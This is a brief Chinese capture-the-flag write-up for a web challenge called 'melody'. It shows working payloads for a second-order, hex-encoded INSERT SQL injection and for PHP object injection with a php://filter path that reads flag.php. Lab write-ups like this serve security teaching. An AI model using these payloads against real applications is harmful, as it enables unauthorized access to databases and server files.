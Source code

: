 # Title
melody
# Tools
	* firefox or chrome,burpsuite
# Steps
	* 观察程序逻辑，用户的学号会被记录在log中而且会显示，注入十六进制数据，发现十六进制数据会被解码成字符串
	* 经过测试发现此处存在二次注入，而且是insert into注入，通过测试可知一共insert5列数据，构造payload：','a',(select database()),'a','a')#并进行16进制编码，在change.php中修改学号，重新登陆在log.php中看到回显
	* 通过sql注入遍历数据库，无法查找到flag，但会在users表中查找到16进制数据并解码得：O:4:"html":2:{s:7:"\x00*\x00html";s:44:"./html/c5041ad05d52383c6d9411246c16c891.html";s:8:"username";s:2:"nc";}。观察可知，这个反序列化会被用来包含文件
	* 在log表中发现debug参数，利用此提交最终payload:','a','a','0x4f3a343a2268746d6c223a323a7b733a373a22002a0068746d6c223b733a35373a227068703a2f2f66696c7465722f726561643d636f6e766572742e6261736536342d656e636f64652f7265736f757263653d666c61672e706870223b733a383a22757365726e616d65223b733a323a226161223b7d')#的16进制编码就可以读取flag.php的内容
